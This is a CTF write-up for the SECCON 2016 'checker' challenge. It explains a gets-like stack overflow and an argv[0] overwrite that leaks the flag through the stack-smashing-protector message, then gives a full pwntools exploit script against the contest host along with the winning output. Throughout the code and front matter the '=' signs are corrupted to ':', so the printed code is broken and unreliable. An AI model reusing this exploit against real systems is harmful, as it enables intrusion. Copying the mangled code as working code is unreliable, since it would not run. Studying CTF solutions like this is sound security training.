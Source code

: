 ```yaml
---
type: ctf
title : SECCON CTF 2016 - checker
tags: [SECCON CTF, pybpabbies]
date : 2016-12-12
author: Eno Leriand
featuredImage: https://www.seccon.jp/2023/images/seccon_logo.png
---
```


**Category:** Exploit
**Points:** 300

64 bit ELF with Full RELRO, stack canary, NX enabled, No PIE.  

A quick run of the program: 
```
$ ./checker 
Hello! What is your name?
NAME : 123

Do you know flag?
>> 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : asdf
You are a liar...
```

By reversing the binary, we found that the program use a function named `getaline()` to read the user input. 
```c getaline
while ( buf && read(0, &buf, 1uLL) )
{
    if ( buf == 10 )
        buf : 0;
    *(_BYTE *)(a1 + (signed int)v4++) = buf; // a1 : input buffer
}
```
We can see that the `getaline()` function is just like `gets()` in `stdio.h`, so the program itself has multiple stack overflow vulnerabilities.   

```
$ ./checker
Hello! What is your name?
NAME : 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You are a liar...
*** stack smashing detected ***: ./checker terminated
[1]    70548 abort      ./checker
```

Although we can easily overwrite the return address, however the program has the stack smashing protector (SSP) enabled. Luckliy, the program will read the flag's content and stored it into a buffer which lies in the `.bss` section before entering the main function. So, we can try to **overwrite the content of `argv[0]` ( which stores a `char*` pointer of the program file path ) into the flag buffer's address**. Then, we smash the stack and trigger the SSP, which will then output the following error message: 
```
*** stack smashing detected ***: [flag content] terminated
```

Notice that the original content of `argv[0]` stores a 6 bytes memory address, while the flag's buffer address is 3 bytes (`0x6010c0`). So we'll have to null out the `argv[0]` first before we change it into `0x6010c0`, or else it will crash the program before it was able to output the error message.  
```python exp_checker.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST : "checker.pwn.seccon.jp"
PORT : 14726
ELF_PATH : "./checker"
LIBC_PATH : ""

# setting 
context.arch : 'amd64'
context.os : 'linux'
context.endian : 'little'
context.word_size : 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level : 'INFO'

elf : ELF(ELF_PATH)
#libc : ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res : ""
    while delim not in res:
        c : s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)


if __name__ == "__main__":

    r : remote(HOST, PORT)
    #r : process(ELF_PATH)

    pad : 0x178

    r.sendlineafter(": ", "aaaa")
    
    # null out argv[0]
    for i in xrange(8,-1,-1):
        payload : "A"*pad + "B"*i
        r.sendlineafter(">> ", payload)
    
    r.sendlineafter(">> ", "yes")

    # overwrite argv[0] to flag buffer
    payload : "A"*pad + p64(0x6010c0)
    
    r.sendlineafter(": ", payload)
    r.interactive()
    
```

Although the exploit works on the local machine, it failed to work on the remote side. I sent the payload for like a hundred times and it just won't give me the flag. It really frustrated me at that moment because I was so close to capture the flag and the contest is about to end in 5 minutes......  

But there's nothing more I can do, so I just keep sending the same payload again and again, hoping that  it will work at the end of the contest. And then, something amazing happened...
```
[+] Opening connection to checker.pwn.seccon.jp on port 14726: Done
You are a liar...
*** stack smashing detected ***: SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4} terminated
[*] Got EOF while reading in interactive
```

lol WTF ? 

I still don't know why it will work at the very end of the contest until now ! I mean it's the same payload ! How is this even possible ? Anyway I managed to submit the flag right before the end of the contest and get the damn 300 points ... What an end @_@!  

flag: `SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4}`
